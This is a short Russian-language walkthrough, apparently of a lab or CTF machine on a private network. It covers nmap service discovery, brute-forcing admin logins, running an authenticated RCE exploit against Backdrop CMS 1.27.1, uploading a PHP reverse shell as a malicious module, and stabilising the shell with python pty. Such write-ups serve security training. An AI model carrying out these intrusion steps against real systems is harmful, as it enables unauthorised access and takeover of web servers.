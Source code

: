 >[!tip]- nmap
 -iL scoupout -p10050,10051,10250,10255,1099,111,135,139,143,1433,1434,1500,1521-1527,1540,1541,161,179,2001,2010,2049,21,2181,22,2222,23,2375,2376,2379,25,27017,27018,2809,3050,3200-3299,3306,3389,389,443,445,4678,4786,4848,4899,49152,50013,50070,53,5432,5433,5555,5557,5558,5559,5601,5666,5800-5810,5900,5901,5985,5986,623,636,6379,6443,7001,7873,80,8000,8001,8002,8004,8006,8007,8008,8080,8081,8111,8180,8200,8201,8291,8400,8443,8500,8501,873,88,8879,8888,9000,9043,9060,9080,9200,9300,9443,9501,9502,9503 -sVC --open -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-10 17:27 MSK
Nmap scan report for 10.114.0.98
Host is up (0.036s latency).
Not shown: 212 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 c1:44:09:2c:87:f3:5d:46:68:26:aa:43:bb:ac:6f:9d (RSA)
|   256 81:4e:1d:b7:55:53:7c:93:29:3e:58:9a:37:a3:ad:32 (ECDSA)
|_  256 71:62:b5:ff:e2:0f:8d:25:3e:30:04:1e:48:e2:65:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-title: Home | We help you create a comfortable future
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap scan report for 10.114.0.125
Host is up (0.035s latency).
Not shown: 213 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE VERSION
443/tcp open  https?
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 5 IP addresses (5 hosts up) scanned in 46.31 seconds

находим сайт it_solutions.com и добавляем в hosts
Находим логины adminer1-7, используя данные пароли попробуем брутфорс
подбираем пароль adminer6:password
Затем определяем версию Backdrop CMS 1.27.1 и находим эксплоит ([Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE) - PHP webapps Exploit](https://www.exploit-db.com/exploits/52021))
создаем эксплоит
```
python3 52021.py http://it_solutions.com           
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://it_solutions.com/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://it_solutions.com/modules/shell/shell.php

```
Также создаем php revshell доступ ( созданый ранее shell.php дает нам RCE) с помощью revshells.com
Добавляем все в архив tar
```
tar cf shell.tar shell
```

Затем загружаем архив по адресу http://10.114.0.98/admin/installer/manual 
после загрузке переходим по адресу 10.114.0.98/modules/shell/revshells.php и получаем обратный шелл под пользователем www-data
Создаем стабильный шелл
```
python -c "import pty; pty.spawn('/bin/bash')"
```

